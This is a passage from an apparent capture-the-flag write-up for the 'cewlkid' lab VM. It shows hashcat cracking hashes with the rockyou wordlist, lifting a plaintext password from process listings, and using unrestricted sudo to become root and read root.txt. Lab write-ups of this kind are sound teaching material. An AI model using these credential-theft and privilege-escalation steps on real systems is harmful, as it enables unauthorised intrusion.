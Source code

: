 Lets now try to crack this with `hashcat`:
```
hashcat -m 1800 -a 0 -o cracked.txt hashes.txt ../wordlists/rockyou.txt
```
> This will take some time. Be patient.

Another quicker path to get the cewlbeans password for this vm would be to check the running processes. in there we can see that cewlbeans' password is exposed in plain text:
```
lorem@cewlkid:~$ ps aux | grep cewl
ps aux | grep cewl
root       15899  0.0  0.8  27088  8372 ?        S    07:51   0:00 /root/pth-toolkit-master/bin/winexe -U cewlbeans%fondateurs //kali whoami
root       15903  0.0  0.8  27088  8312 ?        S    07:52   0:00 /root/pth-toolkit-master/bin/winexe -U cewlbeans%fondateurs //kali whoami
root       15909  0.0  0.8  27088  8288 ?        S    07:53   0:00 /root/pth-toolkit-master/bin/winexe -U cewlbeans%fondateurs //kali whoami
lorem      15912  0.0  0.0   6632   740 pts/3    S+   07:53   0:00 grep --color=auto cewl
lorem@cewlkid:~$ 
```
Lets login as cewlikid now and execute `sudo -l`:
```

lorem@cewlkid:~$ su cewlbeans
su cewlbeans
Password: fondateurs

cewlbeans@cewlkid:/home/lorem$ sudo -l
sudo -l
[sudo] password for cewlbeans: fondateurs

Matching Defaults entries for cewlbeans on cewlkid:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cewlbeans may run the following commands on cewlkid:
    (ALL : ALL) ALL
```
So this user can run everything as root. Lets use that:
```
cewlbeans@cewlkid:/home/lorem$ sudo su
sudo su
root@cewlkid:/home/lorem# cd /root
cd /root
root@cewlkid:~# ls -lart
ls -lart
total 48
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  2 root root 4096 Sep  7 23:42 .ssh
drwxr-xr-x  3 root root 4096 Sep  7 23:42 snap
drwxr-xr-x  3 root root 4096 Sep  8 23:09 .local
drwxr-xr-x 21 root root 4096 Sep  9 12:11 ..
lrwxrwxrwx  1 root root    9 Sep  9 15:59 .bash_history -> /dev/null
-rw-r--r--  1 root root  209 Sep  9 16:12 .wget-hsts
-rw-r--r--  1 root root   66 Sep  9 17:35 .selected_editor
-rw-------  1 root root   92 Sep  9 22:53 .lesshst
drwxr-xr-x  5 root root 4096 Sep  9 23:44 pth-toolkit-master
-rw-r--r--  1 root root 1983 Sep 10 21:41 root.txt
drwx------  6 root root 4096 Sep 10 21:41 .
root@cewlkid:~# cat root.txt
cat root.txt
        ______  ___________    __    ____  __       __  ___  __   _______                    
       /      ||   ____\   \  /  \  /   / |  |     |  |/  / |  | |       \                   
      |  ,----'|  |__   \   \/    \/   /  |  |     |  '  /  |  | |  .--.  |                  
```